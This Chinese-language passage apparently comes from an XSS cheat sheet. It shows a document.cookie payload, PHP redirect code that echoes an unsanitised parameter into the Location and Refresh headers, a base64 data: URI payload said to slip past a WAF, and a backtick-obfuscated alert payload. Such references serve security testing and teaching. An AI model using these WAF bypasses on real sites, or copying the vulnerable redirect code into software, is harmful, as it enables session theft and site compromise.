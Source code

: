 利用：

```js
/?xss=document.cookie
```

#### 通过请求重定向的 XSS

易受攻击的代码：

```js
...
header('Location: '.$_GET['param']);
...
```

以及：

```js
...
header('Refresh: 0; URL='.$_GET['param']);
...
```

这个请求不会通过 WAF：

```html
/?param=<javascript:alert(document.cookie>)
```

这个请求将通过 WAF，并且在某些浏览器中将进行 XSS 攻击：

```html
/?param=<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

### XSS 的 WAF 绕过字符串

（此处省略了大量 WAF 绕过字符串，因为篇幅所限）

### 过滤器绕过警报混淆

（此处省略了大量警报混淆方法，因为篇幅所限）

最后的有效载荷应包括前导和尾随反引号：

```js
&#96;`${alert``}`&#96;
```
